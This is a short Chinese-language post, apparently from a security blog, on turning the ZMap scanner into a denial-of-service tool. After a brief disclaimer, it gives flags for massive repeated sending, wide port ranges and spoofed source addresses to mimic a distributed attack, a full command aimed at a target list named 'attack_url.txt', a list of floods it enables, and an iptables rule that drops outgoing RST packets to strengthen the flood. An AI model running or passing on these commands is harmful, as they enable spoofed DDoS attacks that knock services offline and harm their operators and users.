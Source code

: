 作者旨在关注全网的扫描，并未提及相关DDoS 的信息。

也并未特别提供指向型发包的指令。

下面讨论可能与作者想法相违，希望各位重在技术钻研，而非一些恶意破坏。

指定ip段 和ip地址

```
-w, --whitelist-file=path

```

限制只扫描文件中的下列地址或者地址段，例如：

```
222.222.221.82/24   （192.168.1.0-255 ）（可利用种子 –seed 调整从那个IP开始）

```

单个Ip地址

```
222.222.221.82/32  （随机找了一个，这里1.02版本测试不能直接，需要改 blacklist.c和constraint.c 中生成IP地址的二叉树的root节点一小部分代码）

```

然后利用

```
-P  10000000 （重复多次发包）
-s  2000-60000 (设置一个大的端口段)
-S  20.20.20.0-200.200.200.200（随机大量Ip地址，模拟分布式的D）
-G  这个伪造mac （但是收不到数据包）





Zmap –p 80 -P 10000000 -s 2000-60000 -S 20.20.20.0-200.200.200.200 -w attack_url.txt

```

见下列发送的数据效果，达到预期

![enter image description here](http://drops.javaweb.org/uploads/images/a2d1a618c38d08a372848785d537b834a5b524cb.jpg)

可能造成什么样的危害?

可以配置IP Spoofing，syn flood,land attack, ICMP floods, Application floods 和其他UDP 全零等多种攻击。

Zmap 的发包速度甚至可以忽略一下 随后发的这个rst 包。

也可以做得完美一点就是利用iptables

```
iptables -A OUTPUT -p tcp -m tcp --tcp-flags RST,RST RST,RST -j DROP

```

把发出去的RST包给drop掉。
